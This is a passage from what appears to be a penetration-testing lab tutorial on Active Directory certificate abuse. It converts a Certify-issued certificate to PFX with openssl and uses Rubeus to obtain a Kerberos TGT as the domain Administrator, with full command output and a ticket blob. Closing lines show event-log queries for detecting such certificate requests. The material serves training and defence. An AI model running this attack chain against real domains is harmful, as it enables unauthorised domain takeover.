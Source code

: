 Once the attack finishes, we will obtain a certificate successfully. The command generates a `PEM` certificate and displays it as base64. We need to convert the `PEM` certificate to the [PFX](https://learn.microsoft.com/en-us/windows-hardware/drivers/install/personal-information-exchange---pfx--files) format by running the command mentioned in the output of Certify (when asked for the password, press `Enter` without providing one), however, to be on the safe side, let's first execute the below command to avoid bad formatting of the `PEM` file.

```bash
sed -i 's/\s\s\+/\n/g' cert.pem
```

Then we can execute the `openssl` command mentioned in the output of Certify.

```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

![openssl](img/openssl.png)

Now that we have the certificate in a usable `PFX` format (which `Rubeus` supports), we can request a Kerberos TGT for the account `Administrator` and authenticate with the certificate:

```powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=bob, OU=EagleUsers, DC=eagle, DC=local
[*] Building AS-REQ (w/ PKINIT preauth) for: 'eagle.local\Administrator'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGVjCCBlKgAwIBBaEDAgEWooIFaTCCBWVhggVhMIIFXaADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtlYWdsZS5sb2NhbKOCBSMwggUfoAMCARKhAwIBAqKCBREEggUN/0cVeDEy
      +dWkCObsKvVAhfrZdORL3htCnalVR1GYRWahL2KRC3dFKGMU8z9RxXNGBRxnx2jOQA7KIpTKAl56pHMm
      XGp78caInKsbfF/CdLKdzayIRZH0scYWIMflA+M3crgUw6UFw6QNywLElxhsN1eWv14CAx52i+IcZulx
      ZX1Ldq9JZIDd89rV916j3Lx9f4BGNYU4tqUG3adHoJF/YH/LABc21YJaG88qoAju5I1/LlVBAwStAU7t
      Sw4OAn3lsau8St4IY+pbzX5pM25nSjZBwjk5sv7OmWGLUO74l5DgVDwdfLKiulAt5dze4OjBez0LDPdo
      pP1+fFE0xXaYSAiccAkudm7OYScbnl7Leaz+4xrgXFWkPaOqJR+CyReovaBozcM/02Hf7klxChHQ5TP1
      4zEaf+XVqbUcv+dNL4TN1kNK90+P+CdtV7RVXdIOYDsdTkRroXxuuafLFE5zR4OvUh73/Ch/Z0jTAMbP
      2d0x7CNyqzWvJcmeoLn2Z/YjqfrvyXgSywHdpGCQ05F3S5kz1YChG7n+DyYdxhuDGBthTy82+gzz4il8
      ZOzT/01PDJ8oqWNXLDGd9j3y3Fh8mbMZ3jnuJjA2OSxSooUS+rH0f/j4hdNWgryeDHScR8U/Tm/awwv4
      7sFD5i8iK5mtn7gGpn5vzK2zoZ1jq8j++33P6sMnzNgf33l1fOeKR6ggyFKZq9WIGUJjkZ4tcTI2Ufb7
      lLbG23ycyUgqU1aouPAWBWxrCa0xm8nVcnfJOtTVlDY71N4gNx8kqDCDDfjAjz6mqrOzZAGYWHKx1/Oy
      x7zU+W3cKdTIhQh1nN9NY9Zwc/ioJfVBhKY83KZSt7yqJoTR5j7ZztJf4uXQS7EaFzUvRJKBs5xhhwGx
      UsVqGz/GM5i2J8sC7dOQj76T4nMggczbIhR6va1K/2OiVbHGvJb/U+iOfenBIeqryBXW41hyxXWGNtNO
      Tr1pEbJZDIVgrHLh3LzFDHR7zSBjxXE+D9JihuHWDy2hpR+H9HD3KE9ixkjPA5GjXj0R5ikgwdw1SvZl
      yxtLNwDmgbL3ObKsyagKcNYqaN8zky2oSA7ofGL03er+TFLqyMOBh4tEiZTGBkcroX+BpgAC8vA9CFet
      RzlZ+AQRB1+ngimkt6nLeAsdH8+pm8RnWAAtvV/2DZ984WjiDVV8WvvvNoaHt438vRcu7QT8cW/dgeF8
      wmXBJnrI5adpzo+7p0LnPtMIe/02jDgmFRQrAiYtFvhO1BLtWm3ZVe+1/dinsWneuj5APkDIfLSXR2x/
      TU3Waoko5UPjuUn0BQaKWBQQ2OvPF/m79sqz4HLRoAORHvJvCzetebdpbPpfWWdeNeeHs1/Yh2Dj0/s7
      UbQNFmj94yWRM/QcvZz9SKmBLOhp3tMTvUdpDVupliqKaYzuZieiBP/HzaHGt5DcyrsKyJcXQw9upUjz
```

[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *